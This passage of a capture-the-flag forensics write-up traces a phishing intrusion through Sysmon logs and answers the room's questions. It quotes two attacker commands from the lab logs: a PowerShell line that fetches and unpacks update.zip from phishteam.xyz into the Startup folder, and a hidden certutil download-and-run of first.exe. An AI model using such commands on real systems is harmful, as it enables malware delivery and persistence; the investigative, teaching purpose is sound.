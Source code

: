 Here is the hint from THM: *“The AppData environment variable can be simplified.”*

Reading the description for this task I took the base64 encoded string we found earlier and put it into Cyberchef: [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)

This is the result:

```yaml
$app=[Environment]::GetFolderPath('ApplicationData');cd "$app\Microsoft\Windows\Start Menu\Programs\Startup"; iwr http://phishteam.xyz/02dcf07/update.zip -outfile update.zip; Expand-Archive .\update.zip -DestinationPath .; rm update.zip;
```

We can see that it’s navigating to the Startup folder to make this more persistent. We can see **iwr** being used here or **Invoke Web Request**. We are downloading a file, specifically - `http://phishteam.xyz/02dcf07/update.zip`, unzipping then promptly deleting the zip file to cover up tracks a bit.

Seeing as we have the **update.zip** information, I looked it up in Timeline Explorer.

![A screenshot of Timeline Explorer v2.0.0.1 displaying a CSV file. A section showing "TargetFilename" highlights the path: "C:sersenimaruppDataoamingicrosoftindowstart Menurogramstartuppdate.zip."](https://cdn.hashnode.com/res/hashnode/image/upload/v1755254136123/0857a0db-084d-47a3-be4e-cb268f9ef914.png align="center")

Found one entry and under **Payload Data4** we can see our **TargetFilename:**

**\= C:\\Users\\benimaru\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\**[**update.zip**](http://update.zip)

---

> ### The implanted payload executes once the user logs into the machine. What is the executed command upon a successful login of the compromised user?

Seeing as we have found the **phishteam.xyz** domain, I decided that would be a good place to look.

Doing so will reveal some DNS results and some more juicier details:

![A Timeline Explorer window showing search results for "phishteam.xyz" within a CSV file. Several entries display PowerShell commands downloading and executing files from the specified URL, highlighted in orange. The interface includes options like File, Tools, Tabs, View, and Help in the menu bar.](https://cdn.hashnode.com/res/hashnode/image/upload/v1755254992675/03c5caec-1a46-4191-b173-ed662cb633d7.png align="center")

We can see some very suspicious **.exe** files, however the one we want to look at here is **first.exe**. Copy the **Executable Info** and remove the quotations around the **powershell.exe** part.

**\= C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe -w hidden -noni certutil -urlcache -split -f '**[**http://phishteam.xyz/02dcf07/first.exe**](http://phishteam.xyz/02dcf07/first.exe)**' C:\\Users\\Public\\Downloads\\first.exe; C:\\Users\\Public\\Downloads\\first.exe**

---

> ### Based on Sysmon logs, what is the SHA256 hash of the malicious binary downloaded for stage 2 execution?

Using information we already know, I looked up `first.exe`.

![A screenshot of Timeline Explorer software displaying search results for "first.exe" in sysmon.csv. The results show various command lines involving file paths and network activities, with "first.exe" highlighted several times.](https://cdn.hashnode.com/res/hashnode/image/upload/v1755255422726/c4df9f55-8386-4a46-85b3-07114b24f983.png align="center")

Looking at this entry with **Executable Info” of “C:\\Users\\Public\\Downloads\\first.exe**

Scrolling a bunch to the left under **Payload Data3** we will find MD5, SHA256 and IMPHASH values. Looking at our entry and the SHA256 part we find our hash value!
